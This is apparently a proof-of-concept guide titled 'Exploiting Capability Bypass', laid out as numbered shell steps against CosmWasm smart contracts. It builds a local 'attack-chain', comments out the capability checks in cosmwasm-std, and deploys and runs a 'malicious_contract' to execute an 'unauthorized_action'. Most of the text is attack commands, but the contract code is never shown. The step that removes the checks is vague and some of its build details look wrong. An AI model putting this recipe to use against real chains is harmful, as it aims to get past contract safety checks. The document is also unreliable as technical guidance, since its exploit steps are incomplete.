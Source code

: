 # Exploiting Capability Bypass


## Step 1: Set Up Development Environment
Ensure your Kali Linux machine has the necessary dependencies installed.

### Install Rust and CosmWasm Tools
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
source $HOME/.cargo/env
rustup default stable
rustup target add wasm32-unknown-unknown

### Install Wasmd (CosmWasm Binary)
git clone https://github.com/CosmWasm/wasmd.git
cd wasmd
git checkout v0.30.0 # Choose a stable version
make build
sudo mv build/wasmd /usr/local/bin/

### Verify Installation
wasmd version

---

## Step 2: Set Up a Local Blockchain for Testing

### Initialize the Chain
wasmd init attacker-node --chain-id attack-chain

### Create and Fund an Account
wasmd keys add attacker
wasmd add-genesis-account $(wasmd keys show attacker -a) 100000000stake
wasmd gentx attacker 100000000stake --chain-id attack-chain
wasmd collect-gentxs
wasmd start

---

## Step 3: Modify CosmWasm to Bypass Capabilities

### Clone the CosmWasm Repository
git clone https://github.com/CosmWasm/cosmwasm.git
cd cosmwasm

### Modify the Compiler to Bypass Capability Checks
- Open cosmwasm-std/src/capabilities.rs
- Locate the section that generates the capabilities string.
- Comment out or remove the part that sets the required capabilities:

// Do not set required capabilities
// let required_capabilities = ...

### Recompile the CosmWasm Compiler
cargo build --release --target wasm32-unknown-unknown

---

## Step 4: Deploy the Malicious Contract

### Compile a Minimal Malicious Contract
cargo wasm

### Deploy the Contract
wasmd tx wasm store target/wasm32-unknown-unknown/release/malicious_contract.wasm --from attacker --gas auto --fees 5000stake --chain-id attack-chain -y

### Instantiate the Contract
wasmd tx wasm instantiate <CODE_ID> '{}' --from attacker --label "malicious_contract" --no-admin --gas auto --fees 5000stake --chain-id attack-chain -y

### Execute Unauthorized Actions
wasmd tx wasm execute <CONTRACT_ADDRESS> '{"unauthorized_action": {}}' --from attacker --gas auto --fees 5000stake --chain-id attack-chain -y

